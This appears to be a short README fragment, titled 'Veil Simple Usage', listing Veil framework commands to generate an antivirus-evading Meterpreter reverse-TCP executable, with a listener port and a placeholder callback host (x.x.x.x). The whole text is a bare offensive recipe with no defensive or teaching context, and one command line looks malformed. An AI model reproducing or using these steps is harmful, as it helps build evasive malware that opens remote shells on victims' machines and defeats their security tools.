 # Veil Simple Usage

Generate exe:

```
$ veil
> use 1 (evasion)
> use 11 (cs/meterpreter/rev_tcp)
> set LPORT 4444
> set LHOST x.x.x.x
> set use ARYA y
> generate
$ ls /var/lib/veil/output/compiled/
```